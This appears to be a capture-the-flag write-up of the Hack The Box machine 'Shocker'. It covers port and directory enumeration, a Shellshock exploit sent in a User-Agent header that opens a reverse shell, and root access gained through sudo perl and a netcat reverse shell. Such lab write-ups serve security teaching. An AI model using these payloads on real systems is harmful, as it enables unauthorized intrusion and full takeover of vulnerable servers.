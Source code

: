 ```yaml
---
layout: post
title: Hack the Box - Shocker
date: 2020-05-24 12:26:22 +0100
description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
img: shocker.png
fig-caption: Shocker
categories: HackTheBox
tags: [Easy, Linux, Retired, CVE]
---
```

## Overview
Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
## Enumeration
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker]
└─$ sudo nmap -p- -T4 10.129.113.222          
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-15 15:46 GMT
Nmap scan report for 10.129.113.222
Host is up (0.017s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

Nmap done: 1 IP address (1 host up) scanned in 12.10 seconds
```
When accessing the site only an image of a bug is displayed, through some guesswork with the name the shellshock exploit seems like a good candidate for the exploit. When enumerating the cgi-bin directory we find user.sh.
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker/shellshock-cgi]
└─$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.129.113.222/cgi-bin/FUZZ.sh                                          

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.129.113.222/cgi-bin/FUZZ.sh
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

user                    [Status: 200, Size: 119, Words: 19, Lines: 8]
```
## Foothold
Using burpsuites repeater we can send bash commands through the User-Agent header
```
User-Agent: () { :;}; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/4242 0>&1';
```
Then we should receive a shell
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker/shellshock-cgi]
└─$ nc -nlvp 4242
listening on [any] 4242 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.222] 42300
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$
```
## Privilege Escalation
Privilege escalation is relatively simple using the command below we can see that the current user can run perl commands as root
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
Using [GTFObins](https://gtfobins.github.io/gtfobins/perl/) we can find a command to run to return us a root shell, which we will need to modify however due to the limited terminal.
```
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/tmp/nc -nv 10.10.14.27 4243 -e /bin/bash"'
```
```
┌──[10.10.14.27]-(calxus㉿calxus)-[~/hackthebox/shocker/shellshock-cgi]
└─$ nc -nlvp 4243
listening on [any] 4243 ...
connect to [10.10.14.27] from (UNKNOWN) [10.129.113.222] 37880
python3 -c "import pty; pty.spawn('/bin/bash')"
root@Shocker:/usr/lib/cgi-bin#
```
